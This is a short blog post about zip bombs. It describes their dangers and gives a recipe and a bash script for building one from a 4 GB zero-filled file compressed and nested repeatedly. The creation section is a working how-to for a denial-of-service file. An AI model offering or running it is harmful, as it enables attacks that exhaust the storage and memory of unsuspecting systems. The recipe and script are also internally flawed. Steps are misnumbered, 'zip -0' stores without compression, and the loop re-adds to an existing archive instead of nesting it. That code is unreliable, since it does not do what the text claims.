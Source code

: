 ```yaml
---
title: About Zip Bombs
description: 
summary: 💣 Zip bombs and their risks
published: '2024-03-28T13:15:22.000+01:00'
updated: '2024-03-28T13:15:22.000+01:00'
cover: ./cover.jpg
coverStyle: 'IN'
tags:
  - [ Zip, Zip Bomb, Security ]
---
```


<script lang="ts">
  import AndThen from '$custom/AndThen.svelte';
</script>

## What is a Zip Bomb?
At its core, a zip bomb is a compressed file that, when extracted, expands exponentially, consuming an excessive amount of storage space and system resources.
This exponential growth is achieved through a clever combination of compression algorithms and nested directories.
Essentially, a small initial file size explodes into an overwhelmingly large size upon extraction, overwhelming unsuspecting systems.

## The Dangers of Zip Bombs
Zip bombs pose significant dangers to computer systems and networks.
Here are some key reasons why they are considered malicious:

1. **Resource Consumption**: Upon extraction, a zip bomb rapidly consumes system resources such as CPU, memory, and storage space. This can lead to system slowdowns, freezes, or crashes, disrupting normal operations.
2. **Denial of Service (DoS)**: Zip bombs can be used as a form of denial-of-service attack, especially when targeting servers or networked systems. By sending a zip bomb to a server or sharing it via a network, an attacker can overwhelm the system, rendering it inaccessible to legitimate users.
3. **Data Loss**: In extreme cases, the extraction of a zip bomb can fill up storage devices to capacity, leading to data loss or corruption. This can be particularly damaging if critical files or system components are affected.
4. **Security Risks**: Zip bombs may also serve as a means of concealing malicious payloads. Attackers could embed malware or sensitive data within the layers of nested compression, exploiting vulnerabilities in software or bypassing security measures.
5. **Social Engineering**: Zip bombs can be disguised as harmless or enticing files, such as software downloads, documents, or multimedia files. Unsuspecting users may unknowingly download and extract these files, inadvertently triggering the zip bomb and compromising their systems.

Given these dangers, it's crucial for users and organizations to be vigilant and employ proper security measures to detect and mitigate the risks posed by zip bombs.

## How to Create One
The procedure is simple:

1. Create a 4 Gigabyte (`4*1024*1024*1024` Bytes) file and compress it once <AndThen /> name it `Base.zip`.
2. Copy the compressed file until you have 16 pieces, named `0.zip`, `1.zip`, ..., `9.zip`, `a.zip`, `b.zip`, ..., `f.zip`
2. Compress the 16 created zip files and overwrite `Base.zip` with the result.
3. Repeat step 2 and 3 until satisfied.

### Exponential growth
This will achieve exponential growth.
Even on the first level you already have 16 4GB files, resulting in 64 GB total.
To put this into perspective, this is half of what the biggest known BluRay disc can store and larger than a 4K Movie.

### Example
The procedure outlined below demonstrates how to create a basic zip bomb:

```bash
#!/bin/bash

# Function to create zip bomb
create_zip_bomb() {
  # Step 1: Create a 4 GB file
  dd if=/dev/zero of=base.txt bs=1M count=4096

  # Step 2: Compress the file and name it Base.zip
  zip Base.zip base.txt

  # Step 3: Copy the compressed file 16 times
  for i in {0..9} {a..f}; do cp Base.zip $i.zip; done

  # Step 4: Compress the 16 created zip files and overwrite Base.zip
  zip -0 Base.zip *.zip
}

# Repeat the creation process 5 times
for ((i=0; i<5; i++)); do
  echo "Creating zip bomb $i"
  create_zip_bomb
done
```
